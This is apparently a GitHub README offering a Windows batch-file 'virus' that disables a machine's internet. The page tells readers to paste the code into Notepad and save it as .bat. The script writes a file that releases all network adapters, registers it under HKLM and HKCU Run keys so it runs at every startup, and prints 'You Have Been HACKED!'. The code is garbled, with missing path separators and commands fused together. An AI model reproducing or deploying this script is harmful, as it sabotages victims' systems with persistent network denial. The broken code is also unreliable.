 # Disable Windows Internet Permanently Bat File Virus
This code will Disable Internet Of The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .bat extention
```bat
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

